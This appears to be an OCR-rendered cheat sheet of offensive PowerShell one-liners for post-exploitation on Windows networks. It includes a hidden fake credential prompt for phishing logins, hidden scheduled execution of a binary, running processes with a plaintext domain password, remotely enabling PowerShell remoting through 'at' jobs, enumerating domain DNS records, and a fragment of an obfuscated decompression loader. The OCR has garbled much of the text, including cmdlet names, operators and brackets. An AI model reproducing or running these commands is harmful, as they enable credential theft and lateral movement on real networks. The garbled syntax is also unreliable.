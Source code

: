 ### Basic authentication window

```text
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass
$Host.UI.PromptForCredential(" title "," message "," user" "," domain")
```

### Run the exe file \(from cmd.exe\) every 4 hours between August 8-11, 2013, device 0800-1700

```text
powershell. exe -Command "do {if ((Get-Date -format yyyyMMdd-HHmm) -match
'201308 ( 0 [ 8-9] |1 [0-1])-(0[ 8-9]]|1 [ 0-7]) [ 0-5] [ 0-9]') {Start-Process -
WindowStyle Hidden "C:\Temp\my.exe";Start-Sleep -s 14400))while(1)"
```

### Run Powershell as

```text
$pw ~ convertto-securestring -string "PASSWORD" -asplaintext -force;
$pp ~ new-object -typename System.Management.Automation.PSCredential -
argument list "DOMAIN\user", $pw;
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command
&{Start-Process file.exe -verb runas)'
```

### Email sender

```text
powershell.exe Send-l-1ai1Hessage -to "email" -from "email" -subject
"Subject" -a "attachment file path" -body "Body" -SmtpServer Target
Email Server IP
```

### Activating remote access to powershell \(requires identity information\)

```text
net time \\ip
at \\ip time "Powershell -Command 'Enable-PSRemoting -Force'"
at \\ip time+1 "Powershell -Command 'Set-Item
wsman:\localhost\client\trustedhosts ''"
at \ \ip time+2 "Powershell -Command 'Restart-Service WinRM'"
Enter-PSSession -ComputerName ip -Credential username
```


### hostname and ip list for all domains

```text
Get-WmiObject -ComputerName DC -Namespace root\microsoftDNS -Class 
MicrosoftDNS _ ResourceRecord -Filter "domainname~' DOMAIN '" | select 
textrepresentation 
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"